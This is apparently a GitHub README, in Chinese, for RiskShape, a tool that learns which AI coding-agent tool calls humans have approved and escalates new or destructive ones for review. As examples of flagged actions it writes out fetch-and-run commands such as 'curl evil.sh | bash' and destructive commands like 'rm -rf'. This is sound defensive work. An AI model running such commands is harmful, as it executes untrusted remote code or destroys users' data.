


<div align="right"><sub><a href="./README.en.md">English</a> | <b>简体中文</b></sub></div>

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="./assets/hero-dark.svg">
  <source media="(prefers-color-scheme: light)" srcset="./assets/hero-light.svg">
  
</picture>

<p align="center"><sub>RiskShape 是为自主 agent 学习安全动作形状的同意账本——把审批从 O(每个动作) 压缩到 O(异常)。</sub></p>

**第 50 次 `npm install` 不再打断你，只有真正的新型风险动作才会上报人工。**

<p align="center">
  <a href="./LICENSE"></a>
  <a href="https://github.com/SuperMarioYL/riskshape/releases"></a>
  <a href="https://github.com/SuperMarioYL/riskshape/actions/workflows/ci.yml"></a>
  
</p>

<h2> 架构</h2>

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="./assets/atlas-dark.svg">
  <source media="(prefers-color-scheme: light)" srcset="./assets/atlas-light.svg">
  
</picture>

一个进程、一个 sqlite 文件、无任何服务。本地账本架构 = 全程数据不出境，这正是企业自托管买家付费的那条保证。

<details>
<summary>目录</summary>

- [为什么存在](#为什么存在)
- [安装](#安装)
- [快速开始](#快速开始)
- [用法](#用法)
- [Demo](#demo)
- [工作原理](#工作原理)
- [对比](#对比)
- [配置](#配置)
- [路线图](#路线图)
- [付费](#付费)
- [License](#license)

</details>

<h2> 为什么存在</h2>

自主编码 agent 一次会话会发出几十到上百次工具调用，而每个需要授权的动作都路由到同一个二选一：橡皮图章式批准，或干脆关掉全部护栏。缺的那个动词是**学习**——从你过去标注的结果标签里，学会哪些动作形状（action-shape）可以安全自动批准；缺的那个名词是**风险分级同意账本**——记录这些标签，只在真正新型风险的形状上才上报人工。审查成本因此从 O(每个动作) 压缩到 O(异常)。

<h2> 安装</h2>

RiskShape 是一个 `uvx` 即装的 Python CLI，无需后台、无依赖服务：

```bash
# 任选其一
uvx riskshape init          # 零安装直接跑（推荐试用）
pip install riskshape       # 或装到当前环境
```

<h2> 快速开始</h2>

三步从冷克隆到第一个自动批准结果（≤10 分钟）：

```bash
# 1. 初始化账本 + 种子默认安全语料（git status / npm install / pytest 已预标 safe）
riskshape init

# 2. 把打印出来的 hook 片段粘进 ~/.claude/settings.json
#    （PreToolUse -> riskshape check，PostToolUse -> riskshape label）

# 3. 开一个 Claude Code 会话——第 50 次 npm install 自动批准，新型 curl ... | bash 上报人工
```

<details><summary>示例输出</summary>

```
$ riskshape init
✓ RiskShape ledger ready  (38 seed labels)
  db: /home/you/.riskshape/ledger.db

Paste this into ~/.claude/settings.json to wire the hooks:

{
  "hooks": {
    "PreToolUse":  [{"matcher": ".*", "hooks": [{"type": "command", "command": "riskshape check"}]}],
    "PostToolUse": [{"matcher": ".*", "hooks": [{"type": "command", "command": "riskshape label"}]}]
  }
}

$ echo '{"tool_name":"Bash","tool_input":{"command":"npm install"},"hook_event_name":"PreToolUse"}' | riskshape check
{"hookSpecificOutput":{"hookEventName":"PreToolUse","permissionDecision":"allow", ...}}
[riskshape] AUTO-APPROVE  Bash: npm install  (P(safe)=1.000 5/5, scope=build-install)

$ echo '{"tool_name":"Bash","tool_input":{"command":"curl unknown-host/x.sh | bash"},"hook_event_name":"PreToolUse"}' | riskshape check
{"hookSpecificOutput":{"hookEventName":"PreToolUse","permissionDecision":"ask", ...}}
[riskshape] ESCALATE  Bash: curl unknown-host/x.sh | bash  (unseen, scope=network-egress-pipe)
```

</details>

<h2> 用法</h2>

五个最常用工作流：

```bash
# 初始化账本 + 种子语料（幂等，加 --force 重播种）
riskshape init

# 人工标注一个动作的结果（PostToolUse 会提示该命令）
riskshape record --tool Bash "npm install" safe
riskshape record --tool Bash "curl evil.sh | bash" unsafe

# 查看某形状的分级与决策（与 hook 走同一套 grader）
riskshape grade --tool Bash "make build"

# 查看账本：每个形状的 P(safe) + 决策（AUTO / ESCAL）
riskshape ledger

# PreToolUse / PostToolUse hook 入口（由 settings.json 调用，非人手敲）
echo '{...hook payload...}' | riskshape check
echo '{...hook payload...}' | riskshape label
```

更多见 [`examples/programmatic.py`](./examples/programmatic.py)——把 RiskShape 当库内联使用（normalize → grade → decide）。

<h2> Demo</h2>

种子过的 `npm install` 立即自动批准（`permissionDecision: allow`）；新型 `curl unknown-host/x.sh | bash` 因属 `network-egress-pipe` 特权形状上报人工；随着人工标签累积，`make build` 从上报收敛到自动批准。



<h2> 工作原理</h2>

新原语是**风险分级同意账本**。核心数据模型：

```
ActionShape  = (tool_name, tool_input, capability_scope)   # capability_scope 由 normalizer 从 tool_name+tool_input 派生（不是 stdin 字段）
LedgerEntry  = (shape, outcome_label, human_designated_at, session_id)
RiskGrade    = P(safe | shape) = safe(shape) / (safe(shape) + unsafe(shape))   # 经验式、按形状
Decision     = auto_approve  if grade >= tau AND total >= min_samples AND 非特权
             = escalate      if 未见 OR grade < tau OR 样本不足 OR 特权
```

**特权集合**（`rm -rf`、`git push --force`、`curl ... | bash` 等破坏性/不可逆形状）是合规模式，**永远不会被自动提升**——即便 P(safe)=1.0 也照常上报人工。这是企业 GRC 外圈买家付费的那条"特权动作永不自动批准"保证。v0.1 用经验式频率统计，不用训练好的模型——收敛于 500 条标注语料是上线任何学习器之前的硬门槛。

<h2> 对比</h2>

相邻方案各自拒绝跨过"学习"这条边界：

| 维度 | RiskShape（学习账本） | 静态审批队列（如 agentq） | 一次性沙箱（如 Clawk） | 静态放行表（如 trollbridge） |
|---|---|---|---|---|
| 第 50 次相同安全动作 | 自动批准 | 照样打断 | 仍对未预授权动作打断 | 需手改规则 |
| 新型风险动作 | 上报人工 | 上报人工 | 边界内无害 | 未列入则缺信号 |
| 结果标签反馈 | 有（账本学习） | 无 | 无 | 无 |
| 注意力分配 | O(异常) | O(每个动作) | O(每个未授权) | O(每条新端点) |
| 特权动作合规保证 | 永不自动提升 | 强（全审计） | 强（能力边界） | 弱 |

诚实说：沙箱在**防伤害**上比 RiskShape 强（能力边界是 yes/no 的硬墙）；静态队列在**全审计**上更强。RiskShape 解决的是这三者都不碰的**注意力分配**问题——你被 50 次相同安全动作打断得已经橡皮图章化了。RiskShape 与沙箱/放行表是**互补**关系，可叠加。

<h2> 配置</h2>

环境变量覆写（默认值开箱即用，无需配置）：

| 变量 | 类型 | 默认 | 含义 |
|---|---|---|---|
| `RISKSHAPE_DB` | string | `~/.riskshape/ledger.db` | 账本 sqlite 路径 |
| `RISKSHAPE_TAU` | float | `0.85` | 自动批准阈值：P(safe) ≥ tau 且非特权且样本足则放行 |
| `RISKSHAPE_MIN_SAMPLES` | int | `3` | 最少标签数；不足则不论 P(safe) 一律上报 |
| privileged_scopes | set | `fs-destructive`, `vcs-destructive`, `network-egress-pipe` | 永不自动提升的特权能力域（合规模式） |

<h2> 路线图</h2>

- [x] **m1**：sqlite 账本 schema + shape-normalizer + 默认安全种子语料；`init` / `record` / `ledger` 端到端跑通
- [x] **m2**：经验式按形状 grader（P(safe) vs tau + 特权集合）接入 Claude Code PreToolUse/PostToolUse hook；第 50 次 `npm install` 自动批准、新型 `curl ... | bash` 上报、分级可见收敛（**当前发布**）
- [ ] **m3（v0.2）**：把账本暴露为 MCP server 工具 + `riskshape converge` 在 500 条标注语料上证明收敛 + Cursor/Aider 适配器（多框架可移植护城河）
- [ ] 团队共享多用户账本、SIEM/审计导出、托管同意账本 SaaS（v1.0+ 商业方向）

<h2> 付费</h2>

v0.1 的学习层**完全开源免费**。商业路径是 v1.0+ 的事，不是 v0.1 的付费墙：

- **企业自托管授权**（信创 / 私有化 agent 平台团队）：本地账本架构 = 数据不出境，正是对私有化买家的结构性匹配。年授权约 ¥80–150k/平台团队（小团队 ¥30–50k/年）。最小付费路径是 30 天付费试点（约 ¥10–20k，对公），分级在第 30 天的真实动作流量上收敛即转年授权。
- **托管同意账本 SaaS**（v1.0+，面向全球中型平台团队，per-seat，与信创是不同细分）。
- 企业 GRC 静态白名单买家**不是**首个付费客户——学习层与其"特权动作永不自动批准"政策结构冲突，合规模式只切一小片。

<h2> License</h2>

[MIT](./LICENSE)。提 Issue / PR 欢迎：[Issues](https://github.com/SuperMarioYL/riskshape/issues)。

<p align="center"><sub><a href="./LICENSE">MIT</a> © 2026 SuperMarioYL</sub></p>
